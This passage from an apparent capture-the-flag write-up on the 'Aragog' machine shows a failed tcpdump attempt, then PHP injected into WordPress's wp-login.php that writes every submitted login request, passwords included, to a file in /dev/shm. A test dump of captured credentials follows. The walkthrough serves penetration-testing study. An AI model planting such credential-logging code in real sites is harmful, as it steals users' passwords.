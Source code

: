 
Two interesting bits from the output of pspy:

  1. The group of processes that starts every five minutes gives a pretty good idea of what happens when `/root/restore.sh` is called, which seems to be reverting the `dev_wiki` site.
  2. `wp-login.py` called by cliff (user UID=1001) is certainly interesting and worth further investigation.

#### Capturing Credentials

##### Failed - tcpdump

The names of the recurring script is `wp-login.py`, which suggests it logs
into the site. Let’s try to capture that with `tcpdump`, and get the creds:

    
    
    florian@aragog:/dev/shm$ tcpdump -D
    1.ens33 [Up, Running]
    2.any (Pseudo-device that captures on all interfaces) [Up, Running]
    3.lo [Up, Running, Loopback]
    4.nflog (Linux netfilter log (NFLOG) interface)
    5.nfqueue (Linux netfilter queue (NFQUEUE) interface)
    6.usbmon1 (USB bus number 1)
    7.usbmon2 (USB bus number 2)
    florian@aragog:/dev/shm$ tcpdump -i 3
    tcpdump: lo: You don't have permission to capture on that device
    (socket: Operation not permitted)
    

Unfortunately, we don’t have permissions to do it.

##### Modify wp-login.php

Since the login is a post to `wp-login.php`, I will modify that page so that
it dumps any credentials submitted to it to file, by adding the lines under
`<?php`:

    
    
    <?php
    $rrr = print_r($_REQUEST, true);
    $fff = fopen("/dev/shm/df", "a");
    fwrite($fff, $rrr);
    fclose($fff);
    

Then, I can test by trying to log in, and seeing my response:

    
    
    florian@aragog:/dev/shm$ cat df
    Array
    (
        [log] => administrator
        [pwd] => sdf
        [wp-submit] => Log In
        [redirect_to] => http://aragog/dev_wiki/wp-admin/
        [testcookie] => 1
    )
    
